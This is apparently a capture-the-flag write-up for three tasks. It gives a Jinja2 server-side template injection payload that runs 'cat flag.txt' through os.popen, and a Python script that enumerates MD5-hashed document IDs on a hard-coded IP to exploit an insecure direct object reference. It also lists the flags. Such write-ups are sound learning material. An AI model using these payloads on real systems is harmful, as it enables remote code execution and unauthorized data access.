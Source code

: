 Welcome flag 

Just check TG group by link in task description and search flag!

FLAG:

    mimictf{w3lc0m3_t0_th3_c1ub_buddy}

Task-2

Here we find `SSTI` vulnerability by entering the payload `{{7*‘7’}}` instead of the username and see that the response is 49. So it's vulnerable jinja template for `SSTI`

But when we try other payloads, the server may check certain characters, so just try to bypass this by using a different type of possible payloads. 

payload:

    {{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

FLAG:

    mimictf{55t1_1nj3ct10n_s1mple99928}

TASK-3

Script:

    import hashlib
    import requests
    
    base_url = "http://134.209.254.230:5002/document/"  # Change to real target URL with id param
    
    def md5_hash(value):
        return hashlib.md5(str(value).encode()).hexdigest()
    
    max_length = 0
    max_id = None
    max_response = None
    
    for i in range(1, 200):  # Adjust upper range as needed
        md5_id = md5_hash(i)
        url = base_url + md5_id
        response = requests.get(url)
        content_length = len(response.text)
        print(f"Trying ID: {i} MD5: {md5_id} Length: {content_length}")
        
        if content_length > max_length:
            max_length = content_length
            max_id = i
            max_response = response.text
    
    print(f"\nMax response length: {max_length} for ID: {max_id} with MD5: {md5_hash(max_id)}")
    print("Response content:\n", max_response)

By running the script, we can see that `id` `127` has a larger response size than the others, so we can find our flag using the MD5 hash 127 `ec5decca5ed3d6b8079e2e7e7bacc9f2`.

FLAG:

    mimictf{1d0r_w1th_h4sh3d_1ds_15_n0t_s4f3}
